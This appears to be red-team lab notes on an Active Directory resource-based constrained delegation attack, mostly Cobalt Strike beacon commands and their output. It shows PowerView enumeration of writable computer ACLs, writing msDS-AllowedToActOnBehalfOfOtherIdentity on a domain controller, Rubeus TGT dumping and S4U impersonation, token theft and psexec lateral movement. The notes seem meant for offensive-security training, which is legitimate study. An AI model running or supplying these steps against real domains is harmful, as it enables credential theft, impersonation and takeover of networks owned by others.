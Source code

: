 # Resource-Based Constrained Delegation

## Introduction

Resource-based constrained delegation, introduced in Windows Server 2012, allows the resource (the service that needs to be accessed) to control which services can delegate on its behalf. This shifts some of the delegation configuration to the resources themselves rather than just the service accounts. In constrained&#x20;

**Scope of Trust:** enhances the delegation model by allowing resources themselves (services) to specify which services can act on behalf of users.

**Configuration:** The target service (resource) specifies which services can access it using delegation.

**Usage:** Useful in scenarios where multiple services need to access a resource and want to allow specific services to delegate user credentials.

#### <mark style="color:red;">Prerequisites to Attack</mark>:

1. A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity**.**
2. Control of another principal that has an SPN.

## Enumerate Domain for Write Permissions

todo: add how it works here.

### Get SPN

This must be a computer we control.

```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid

objectsid                                   
---------                                   
S-1-5-21-569305411-121244042-2357301523-1109
```

### Query Domain for Modify Privileges

This query will obtain every domain computer and read their ACL, filtering on the interesting rights

```
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs 
| ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl"
 -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

## Perform Attack

### Create [SDDL](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language)

We'll then use this inside an SDDL to create a security descriptor.  The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.

```sh
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
```

We can take the descriptor bytes and use `Set-DomainObject`.  When using Cobalt Strike, everything has to be concatenated into a single PowerShell command.

```bash
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

Setting 'msDS-AllowedToActOnBehalfOfOtherIdentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 67 233 238 33 138 9 58 7 19 145 129 140 85 4 0 0' for object 'DC-2$'

beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```



### Perform S4U w/ Rubeus

```sh
// Extract TGT from memory
beacon> execute-assembly C:\Tools\Rubeus.exe triage

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID     | UserName                     | Service                                       | EndTime              |
 ------------------------------------------------------------------------------------------------------------------ 

// Dump TGT
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:<krbtgt-luid> /service:krbtgt /nowrap

// Perform S4u
beacon> execute-assembly C:\Tools\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:cfoxy 
/msdsspn:cifs/dc-2.rotta.lab /ticket:<ticket-from-dump> /nowrap
...
```



### Pass Ticket to Login session

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ROTTA 
/username:cfoxy /password:Password123! /ticket:<ticket-from-dump-bross>

[*] Using ROTTA\cfoxy:Password123!

beacon> steal_token 4092
[+] Impersonated ROTTA\bross

beacon> psexec64 <target-FQDN> smb
```
